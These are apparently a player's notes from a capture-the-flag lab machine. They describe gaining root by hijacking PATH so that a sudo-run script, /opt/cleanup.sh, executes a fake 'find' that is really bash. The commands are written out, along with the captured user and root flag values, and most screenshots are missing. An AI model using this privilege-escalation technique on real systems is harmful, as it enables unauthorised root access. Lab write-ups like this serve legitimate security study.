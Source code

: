 we are in as the user **wizard**
#userflag 7f9da8485ffe27e050498cd4ceee60e9
![[Pasted image 20221111180004.png]]
running sudo -l 
![[Pasted image 20221111191308.png]]

![[Pasted image 20221111191719.png]]
find command has no absolute path and we can leverage that to gain root access 
copying bash to a file called find 
echo /bin/bash > find 
![[Pasted image 20221111191854.png]]
now all we need to do is change the PATH to our current directory and run the script as root
 sudo PATH=$PWD: $PATH /opt/cleanup.sh 
![[Pasted image 20221111192104.png]]
#rootflag 1e6603cb1b3475e00ba97b5d3b684c6b